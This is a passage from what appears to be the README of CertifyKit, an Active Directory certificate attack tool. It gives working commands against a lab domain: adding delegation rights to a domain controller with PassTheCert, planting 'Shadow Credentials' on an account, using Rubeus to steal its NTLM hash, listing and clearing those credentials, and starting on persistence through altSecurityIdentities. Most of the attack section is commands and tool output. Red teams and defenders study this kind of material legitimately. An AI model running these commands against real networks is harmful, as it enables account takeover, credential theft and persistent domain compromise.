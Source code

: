 Restore `userPrincipalName` of User02 to original value

Authenticate as machine account using Schannel with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) to add RBCD

```
PassTheCert.exe --server corpadcs.corp.local --cert-path .\esc10-2.pfx --rbcd --target "CN=CORPDC01,OU=Domain Controllers,DC=corp,DC=local" --sid S-1-5-21-3686061768-1206333381-2520098238-1104
```

#### MISC - *Shadow Credential*

If we have write privilege over an account, we could take over the account by manipulating its `msDS-KeyCredentialLink` attribute, effectively adding "Shadow Credentials" to the target account.

```
CertifyKit.exe account /user:user02 /shadow /outfile:user02-shadow.pfx
```

Authenticate with the "Shadow Credential", and steal NTLM hash

```
Rubeus.exe asktgt /user:user02 /certificate:user02-shadow.pfx /getcredentials
```

List "Shadow Credential" added to an account

```
C:\>.\CertifyKit.exe account /user:user02 /shadow /list
CertifyKit (Hagrid29 version of Certify)
More info: https://github.com/Hagrid29/CertifyKit/

[*] Action: Account Operation

[*] Account user02 attribute:
  msDS-KeyCredentialLink :
    [0] :   DeviceID: 54c93625-7866-41ba-96fe-5c742cc423f9 | Creation Time: 8/21/2022 11:35:46 PM
    [1] :   DeviceID: b130c63d-b1f8-404a-889e-a705ddf9abcb | Creation Time: 8/21/2022 11:35:21 PM
```

Remove specific "Shadow Credential"

```
CertifyKit.exe account /user:user02 /remove:0
```

Clear all  "Shadow Credential"

```
CertifyKit.exe account /user:user02 /shadow /clear
```

#### MISC - *Account persistence with altSecurityIdentities* 

If we have write privilege over an account, we could map a certificate to the account for the purpose of authentication by manipulating its `altSecurityIdentities` attribute

Assume we obtained Domain Admin privilege. We could perform persistence attack on multiple accounts
